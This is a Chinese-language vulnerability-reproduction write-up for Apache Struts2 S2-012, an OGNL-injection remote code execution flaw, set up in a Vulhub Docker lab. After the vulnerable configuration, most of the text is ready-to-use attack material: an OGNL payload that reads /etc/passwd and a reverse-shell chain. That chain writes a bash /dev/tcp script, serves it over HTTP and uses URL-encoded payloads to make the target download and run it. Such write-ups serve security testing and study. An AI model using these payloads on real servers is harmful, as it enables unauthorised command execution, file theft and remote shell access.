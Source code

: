 # Struts2 S2-012 远程代码执行漏洞

## 漏洞描述

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

漏洞详情:

- http://struts.apache.org/docs/s2-012.html

## 漏洞影响

影响版本: 2.1.0 - 2.3.13

## 环境搭建

Vulhub执行以下命令启动s2-012测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-vps-ip:8080/index.jsp`即可进入上传表单页面。

## 漏洞复现

可以直接祭出s2-001中的回显POC，因为这里是没有沙盒，也没有限制任何特殊字符。

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

发送请求，执行命令：

![image-20220301173613307](images/202203011736450.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22wget%22%2C+%22192.168.174.128%2Fshell.sh%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22bash%22%2C+%22%2Fusr%2Flocal%2Ftomcat%2Fshell.sh%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D
```

成功接收反弹shell：

![image-20220301173937416](images/202203011739511.png)